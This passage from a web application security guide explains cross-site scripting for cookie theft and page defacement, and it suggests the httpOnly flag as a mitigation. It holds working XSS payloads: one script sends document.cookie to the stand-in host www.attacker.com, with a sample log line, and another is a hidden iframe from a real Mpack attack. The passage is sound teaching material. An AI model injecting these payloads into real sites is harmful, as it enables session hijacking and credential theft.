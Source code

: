 ```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the document.cookie property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The document.cookie property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the **httpOnly** flag to cookies, so that document.cookie may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HttpOnly), though.

##### Defacement

With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers web site to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This iframe is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](http://isc.sans.org/diary.html?storyid=3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.

A more specialized attack could overlap the entire web site or display a login form, which looks the same as the site's original, but transmits the user name and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one at its place which redirects to a fake web site.
